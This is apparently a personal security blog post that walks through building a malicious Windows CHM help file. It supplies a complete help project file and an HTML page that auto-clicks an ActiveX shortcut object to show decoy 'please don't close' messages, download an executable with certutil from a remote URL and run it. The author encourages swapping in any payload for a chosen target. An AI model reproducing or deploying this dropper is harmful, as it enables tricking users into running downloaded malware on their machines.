 ```yaml
---
title: "Malicious CHM (Help) file"
date: "2019-12-07"
layout: single
comments: true
share: true
related: true
author_profile: true
tags:
- Research
categories:
- Blog Articles
---
```



Hey everyone. May have a nice day! So today I'm gonna explain how a help (.chm) file could be a malicious file in Windows machine.

First, we need to clarify what is .chm file and what its function.

Based on this [website](https://whatis.techtarget.com/fileformat/CHM-Compiled-HTML-file),

CHM is an extension for the Compiled HTML file format, most commonly used by Microsoft’s HTML-based help program. It may contain many compressed HTML documents and the images and JavaScript they link to. CHM features include a table of contents, index, and full text searching.

So, basically user will click this file to see program's manual, details and so on in windows. But, nowadays... only a few amount of people read (click) this CHM file . So, this malicious chm or attack may not cool enough to be a malicious file because of less uses in wild attacks nowadays hahaha.

Example of CHM file
![enter image description here](http://www.create-chm.com/content/pages/about-chm/images/chm-file-viewer.png)

So, how can this .chm file format can be malicious or how to make it malicious that can download file / execute  code?

Here a write-up on how to make a malicious "help documentation" (chm).

## Let's go!

To build a CHM file, first you need an HTML help project (.hhp) file which is a text configuration file.

Here is an example of .hhp file:
```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=malicious.chm
Default topic=malicious.htm
Display compile progress=No
Language=0x410 Italian (Italy)

[FILES]
malicious.htm

[INFOTYPES]
``` 
Save it as `malicous.hhp`.

Next, create `.htm` file for our HTML source where this file will be our weapon to execute code.
I named it as `malicious.htm`.

Here is the content of the `malicious.htm` file:
```
<html>
<title> Malicious CHM </title>
<head>
</head>
<body>

<h2 align=center> Malicious CHM </h2>
<p>
<h3 align=center> This is a malicious CHM file </h3>
</p>
</body>
</html>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
<PARAM name="Item2" value="273,1,1">

</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>
```

Ok now I'm gonna explain the execution code.

The execution code will happen in this line. Note here that, you can replace the execution code with your own desired. :)
```
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
```
The next line meaning that I tell the command prompt to print these words to user because the next command "`certutil.exe`" require some seconds to do its job. 

    echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this...
    
The next line is "`certutil.exe`" command. Certutil.exe is a Windows binary used for handling certificates and also can work as our downloader agent to download our malicious binary. Refer [this](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) for more detail about the binary.

```
certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe
```
Because cerutil.exe takes some times to download our binary, the process execution will be slow too. This make our chm file will display "HTML Help Executable stopped working". If you replaced this code to make an only execution without downloading, CHM will work perfectly without prompting "stopped working" msgbox.

And last line is..
```
& start c:\mal.exe
```
Its function is too execute our malicious binary. 

You can replace the execution code with anything you want include execution of batch file, powershell and so forth (follow your creativity and target).

Now we have these files on our machine. So, the next step is to compile this file to generate our chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm2.PNG){: .align-center}

To generate the CHM file. You can do this using "HTML Help Workshop". 
Download at Official Microsoft website [here](https://www.microsoft.com/en-my/download/details.aspx?id=21138).

Open HTML Help Workshop ---> Go to `File` ---> Click `compile` ---> Choose our `.hhp` file. ---> HTML Help Workshop will compile for us and give us the malicious chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm11.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm3.PNG){: .align-center}

Now double click on your help file to check it worked!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm4.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm5.PNG){: .align-center}

Now, our code is successfully execute. It download our binary and then start our malicious binary.




So, from here you can get a big picture on how chm file could be another hackers weapon to execute their code.

Orite, goodbye! (and Assalamualaikum)
